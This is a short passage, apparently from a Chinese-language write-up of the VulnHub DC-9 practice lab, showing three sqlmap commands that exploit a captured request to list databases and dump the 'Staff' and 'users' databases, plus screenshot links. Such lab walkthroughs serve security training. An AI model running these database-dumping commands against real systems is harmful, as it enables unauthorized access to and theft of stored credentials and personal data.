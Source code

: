 运气挺好,直接拖库
```bash
sqlmap -r 1.txt --dbs
sqlmap -r 1.txt -D Staff --dump
sqlmap -r 1.txt -D users --dump
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/5.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC9/6.png)

